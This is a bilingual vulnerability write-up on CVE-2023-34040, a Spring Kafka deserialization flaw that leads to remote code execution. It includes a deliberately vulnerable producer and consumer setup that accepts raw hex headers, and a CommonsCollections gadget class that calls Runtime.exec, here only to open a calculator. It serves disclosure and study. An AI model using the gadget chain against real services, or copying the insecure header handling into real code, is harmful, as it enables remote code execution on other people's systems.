

# CVE-2023-34040 Spring Kafka Deserialization Remote Code Execution

by pyn3rd

2023-09-15 (Updated: 2023-10-18)

##### [](#0x01-Preface "0x01 Preface")0x01 Preface 0x01 前言

Here is the explicit description about Spring Kafka deserialization vulnerability in Vmware security bulletin.  
以下是 Vmware 安全公告中有关 Spring Kafka 反序列化漏洞的明确描述。


Reference 参考

[https://spring.io/security/cve-2023-34040](https://spring.io/security/cve-2023-34040)

According to the description in security bulletin, we can simply attain some critical points resulting in the vulnerability.  
根据安全公告中的描述，我们可以简单地达到一些导致漏洞的关键点。

1.  Setting the `ErrorHandlingDeserializer` as a key and/or value in the Kafka record in configuration.  
    在配置中将 `ErrorHandlingDeserializer` 设置为 Kafka 记录中的键和/或值。
    
2.  Setting the boolean type properties `checkDeserExWhenKeyNull` and/or `checkDeserExWhenValueNull` to **true**.  
    将布尔类型属性 `checkDeserExWhenKeyNull` 和/或 `checkDeserExWhenValueNull` 设置为 true。
    
3.  The users can publish a Kafka topic without any verification.  
    用户无需任何验证即可发布 Kafka 主题。
    

##### [](#0x02-Concepts-of-Kafka "0x02 Concepts of Kafka")0x02 Concepts of Kafka Kafka 的0x02概念

Before deeply diving into the vulnerability, we promptly review some relevant concepts of the Kafka service.  
在深入研究漏洞之前，我们及时回顾了 Kafka 服务的一些相关概念。



-   Producer：we call the object for publishing record **Kafka topic producer**  
    Producer：我们调用发布记录的对象 Kafka 主题 producer
    
-   Topic：The records are classified by the Kafka service, and each classification is named **Topic**.  
    Topic：记录按 Kafka 服务进行分类，每个分类都命名为 Topic。
    

-   Broker：The published messages are stored in a group of servers, we call it Kafka cluster. Each of the server is a **Broker**. The consumer can attain the data form **Broker** and consume more than one topic.  
    Broker：发布的消息存储在一组服务器中，我们称之为 Kafka 集群。每个服务器都是一个 Broker。消费者可以从 Broker 获取数据，并使用多个主题。

-   Consumer：The object which is used to subscribe message and handle with the published message is called **Kafka topi consumer**. The consumption messages are topic based.  
    Consumer：用于订阅消息并处理已发布消息的对象称为 Kafka topi consumer。消费消息是基于主题的。

Moreover,it is necessary to review the structure of Kafka record.  
此外，有必要对Kafka记录的结构进行回顾。


Kafka Record, we also call it **Message** or **Event** consisting of **Header** and **Body**. The header data virtually equals to **Metadata** including the basic elements like Topic, Patition and Timestamp. They are stored as a pair of key/value. The body data usually are the relevant business data stored as key/value constructure as well.  
Kafka Record，我们也称它为 Message 或 Event，由 Header 和 Body 组成。标头数据实际上等于元数据，包括 Topic、Patition 和 Timestamp 等基本元素。它们存储为一对键/值。正文数据通常也是存储为键/值结构的相关业务数据。

##### [](#Preparation "Preparation")Preparation 制备

Zookeeper server is required before deploying Kafka service.  
在部署 Kafka 服务之前，需要 Zookeeper 服务器。

1.Installing Zookeeper server by docker  
1.通过docker安装Zookeeper服务器

|     |     |
| --- | --- |
| ```plain<br>1<br>``` | ```plain<br>docker run -d --name zookeeper -p 2181:2181 -t zookeeper:latest<br>``` |

2.Deploying Kafka server by docker  
2.通过docker部署Kafka服务器

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```plain<br>docker run  -d --name kafka -p 9092:9092 \<br>-e KAFKA_ZOOKEEPER_CONNECT=192.168.5.102:2181 \<br>-e KAFKA_ADVERTISED_LISTENERS=PLAINTEXT://192.168.5.102:9092 \<br>-e KAFKA_LISTENERS=PLAINTEXT://0.0.0.0:9092 \<br>-e TZ="Asia/Shanghai" \<br>wurstmeister/kafka:latest<br>``` |

3.Spring Boot project imports the affected Kafka dependencies  
3.Spring Boot 项目导入受影响的 Kafka 依赖

Affected version： 受影响的版本：

-   2.8.1 to 2.9.10 2.8.1 到 2.9.10
-   3.0.0 to 3.0.9 3.0.0 到 3.0.9

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```plain<br><dependency><br>        <groupId>org.springframework.kafka</groupId><br>        <artifactId>spring-kafka</artifactId><br>        <version>2.8.11</version><br>    </dependency><br>``` |

4.Updating the configuration in `application.yaml`  
4.更新配置 `application.yaml`


5.Classes for demonstration  
5.示范类

1）Kafka Producer Class 1）Kafka 生产者类

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>``` | ```plain<br>package com.example.SpringKafkaDemo.producer;<br><br>import com.example.SpringKafkaDemo.model.KafkaMessage;<br>import org.apache.kafka.clients.producer.ProducerRecord;<br>import org.springframework.beans.factory.annotation.Autowired;<br>import org.springframework.kafka.core.KafkaTemplate;<br>import org.springframework.web.bind.annotation.*;<br><br>import java.util.HashMap;<br><br>@RestController<br>public class KafkaProducer {<br><br>    @Autowired<br>    private KafkaTemplate<String, String> kafkaTemplate;<br><br>    @PostMapping("/message/send")<br>    public String sendMessage(@RequestBody KafkaMessage message) {<br><br>        String topic = message.getTopic();<br>        String data  = message.getData();<br><br>       HashMap<String, String> headers = message.getHeaders();<br><br><br>        ProducerRecord<String, String> producerRecord = new ProducerRecord<>(topic, data);<br>        for (String s : headers.keySet()) {<br>            if (s.equals("springDeserializerExceptionKey")) {<br>                String exceptData = headers.get(s);<br>                byte[] exceptHandler = KafkaProducer.hexStringtoBytes(exceptData);<br>                producerRecord.headers().add(s, exceptHandler);<br>                continue;<br>            }<br><br>            producerRecord.headers().add(s, headers.get(s).getBytes());<br>        }<br>        kafkaTemplate.send(producerRecord);<br>        String jsonString="{\"code\":\"200\", \"status\":\"success\"}";<br><br>        return jsonString;<br>    }<br><br><br>    private static byte[] hexStringtoBytes(String hexString) {<br><br>        byte[] excepetionMessage = new byte[hexString.length() / 2];<br>        for (int i = 0; i < excepetionMessage.length; i++) {<br>            excepetionMessage[i] = (byte) Integer.parseInt(hexString.substring(i * 2, i * 2 + 2), 16);<br><br>        }<br>        return excepetionMessage;<br>    }<br>}<br>``` |

By the way, here we use a type of design pattern in Java Language, **Template Method Pattern**. In this demonstration, I insert a template named `kafkaTemplate`.  
顺便说一句，这里我们使用 Java 语言中的一种设计模式，即模板方法模式。在本演示中，我插入了一个名为 `kafkaTemplate` .

Highlight of the code fragment  
代码片段的突出显示

|     |     |
| --- | --- |
| ```plain<br>1<br>``` | ```plain<br>private KafkaTemplate<String, String> kafkaTemplate;<br>``` |

2）Kafka Consumer Class 2）Kafka 消费类

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>``` | ```plain<br>package com.example.SpringKafkaDemo.consumer;<br><br>import org.springframework.kafka.annotation.KafkaListener;<br>import org.springframework.stereotype.Service;<br><br>@Service<br>public class KafkaConsumer {<br><br>    @KafkaListener(topics = "my-topic", groupId = "my-group-id")<br>    public void consume(String message) {<br>        System.out.println("Received message: " + message);<br>    }<br><br>}<br>``` |

3）Config Class for the Consumer  
3）消费者的配置类

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>``` | ```plain<br>package com.example.SpringKafkaDemo.config;<br><br>import org.apache.kafka.clients.consumer.ConsumerConfig;<br>import org.springframework.beans.factory.annotation.Value;<br>import org.springframework.context.annotation.Bean;<br>import org.springframework.context.annotation.Configuration;<br>import org.springframework.kafka.annotation.EnableKafka;<br>import org.springframework.kafka.config.ConcurrentKafkaListenerContainerFactory;<br>import org.springframework.kafka.core.ConsumerFactory;<br>import org.springframework.kafka.core.DefaultKafkaConsumerFactory;<br>import org.springframework.kafka.support.serializer.JsonDeserializer;<br><br>import java.util.HashMap;<br>import java.util.Map;<br><br>@Configuration<br>@EnableKafka<br>public class KafkaConsumerConfig {<br><br>    @Value("${spring.kafka.bootstrap-servers}")<br>    private String bootstrapServers;<br><br>    @Value("${spring.kafka.consumer.group-id}")<br>    private String groupId;<br><br>    @Bean<br>    public Map<String, Object> consumerConfigs() {<br>        Map<String, Object> props = new HashMap<>();<br>        props.put(ConsumerConfig.BOOTSTRAP_SERVERS_CONFIG, bootstrapServers);<br>        props.put(ConsumerConfig.GROUP_ID_CONFIG, groupId);<br>        props.put(ConsumerConfig.AUTO_OFFSET_RESET_CONFIG, "earliest");<br>        props.put(ConsumerConfig.KEY_DESERIALIZER_CLASS_CONFIG, JsonDeserializer.class);<br>        props.put(ConsumerConfig.VALUE_DESERIALIZER_CLASS_CONFIG, JsonDeserializer.class);<br>        return props;<br>    }<br><br>    @Bean<br>    public ConsumerFactory<String, String> consumerFactory() {<br>        return new DefaultKafkaConsumerFactory<>(consumerConfigs());<br>    }<br><br>    @Bean<br>    public ConcurrentKafkaListenerContainerFactory<String, String> kafkaListenerContainerFactory() {<br>        ConcurrentKafkaListenerContainerFactory<String, String> factory = new ConcurrentKafkaListenerContainerFactory<>();<br>        factory.setConsumerFactory(consumerFactory());<br>        factory.getContainerProperties().setCheckDeserExWhenKeyNull(true);<br>        factory.getContainerProperties().setCheckDeserExWhenValueNull(true);<br>        return factory;<br>    }<br>}<br>``` |

In acordance with the vulnerablity description in official bulletin, we should set both the `checkDeserExWhenKeyNull` and `checkDeserExWhenValueNull` properties to **true**.  
根据官方公告中的漏洞描述，我们应该将 `checkDeserExWhenKeyNull` 和 `checkDeserExWhenValueNull` 属性都设置为 true。

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>``` | ```plain<br>factory.getContainerProperties().setCheckDeserExWhenKeyNull(true)<br>factory.getContainerProperties().setCheckDeserExWhenValueNull(true)<br>``` |

Se the breakpoint at the `getExceptionFromHeader` function and then have the server start.  
在 `getExceptionFromHeader` 函数处找到断点，然后启动服务器。


Step into `invokeIfHaveRecords` function, the record object will be deserialized.  
单步执行 `invokeIfHaveRecords` 函数时，记录对象将被反序列化。


Back to the `getExceptionFromHeader` function.  
回到函数。 `getExceptionFromHeader`


This function makes the value `springDeserializerExceptionKey` of `record.headers()` into the the value of the variables `headerName` and be delivered `header`.  
这个函数使 的值 `record.headers()` 变成变量 `headerName` 的值 `springDeserializerExceptionKey` 并被传递 `header` 。

And then deliver the value to `byteArrayToDeserializationException` function.  
然后将价值交付给 `byteArrayToDeserializationException` 功能。


Step into `byteArrayToDeserializationException` function.  
单步执行 `byteArrayToDeserializationException` 函数。


The `resolveClass` function is overrided to restrain arbitrary Java class deserialization. Actually, we can find the way of preventing Java deserialization vulnerability in many projects, like Apache Shiro, Fastjson.  
重写该 `resolveClass` 函数以限制任意 Java 类反序列化。实际上，我们可以在很多项目中找到防止 Java 反序列化漏洞的方法，比如 Apache Shiro、Fastjson。


Apparently, only the class  
显然，只有类  
`org.springframework.kafka.support.serializer.DeserializationException` can be deserialized.  
`org.springframework.kafka.support.serializer.DeserializationException` 可以反序列化。


Step into `DeserializationException` function, it consists four arguments. One of them is `cause` which is used to invoke instantial class.  
单步执行 `DeserializationException` 函数，它由四个参数组成。其中之一是 `cause` 用于调用瞬时类。


Write a malicious class and make it inherit the parent class `Throwable`.  
编写一个恶意类并使其继承父类 `Throwable` 。


Eventually, fill the value of the `springDeserializerExceptionKey` key in JSON data with the generated Java serialization. The remote code execution is trigged after sending the HTTP request.  
最后，使用生成的 Java 序列化填充 JSON 数据中 `springDeserializerExceptionKey` 键的值。发送 HTTP 请求后，将触发远程代码执行。


In addition, we could exploit `CommonsCollections` gadget as well. Thus, the malicious class could be constructed as follow.  
此外，我们还可以利用 `CommonsCollections` 小工具。因此，恶意类可以构造如下。

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>``` | ```plain<br>package org.example.deserialization;<br><br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.map.TransformedMap;<br><br>import java.util.HashMap;<br>import java.util.Map;<br><br>public class CustomExceptionClass extends Throwable {<br><br>    // CommonCollection6 Gadget in Static Code Block<br><br>    static {<br>        Transformer[] transformers=new Transformer[]{<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod",<br>                        new Class[]{String.class, Class[].class},<br>                        new Object[]{"getRuntime", new Class[0]}),<br>                new InvokerTransformer("invoke",<br>                        new Class[]{Object.class, Object[].class},<br>                        new Object[]{null, new Object[0]}),<br>                new InvokerTransformer("exec",<br>                        new Class[]{String.class},<br>                        new Object[]{"open -a calculator"})<br>        };<br><br>        Map<String, String> innerMap= new HashMap<>();<br>        innerMap.put("key","value");<br><br>        Map<String, String> outerMap = TransformedMap.decorate(<br>                innerMap,<br>                null,<br>                new ChainedTransformer(transformers));<br><br>        outerMap.put("topic", "test");<br><br>    }<br>}<br>``` |

##### [](#Proof-of-Content "Proof of Content")Proof of Content 内容证明

[https://github.com/pyn3rd/CVE-2023-34040](https://github.com/pyn3rd/CVE-2023-34040)
